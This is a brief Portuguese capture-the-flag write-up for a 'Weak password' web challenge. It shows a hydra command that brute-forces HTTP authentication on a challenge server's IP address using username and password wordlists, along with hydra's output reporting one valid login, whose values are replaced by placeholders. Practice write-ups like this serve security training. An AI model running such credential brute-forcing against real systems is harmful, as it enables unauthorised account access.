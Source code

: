 # Weak password

Efetuando um brute-force com hydra e login/password padrões:

<pre>root@kali:~# hydra -L user.txt -P pass.txt 212.129.38.224 http-head /web-serveur/ch3/
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-02 19:09:50
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-head://212.129.38.224:80/web-serveur/ch3/
[80][http-head] host: 212.129.38.224   login: (login_here)  password: (password_here)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-02 19:09:51<pre>
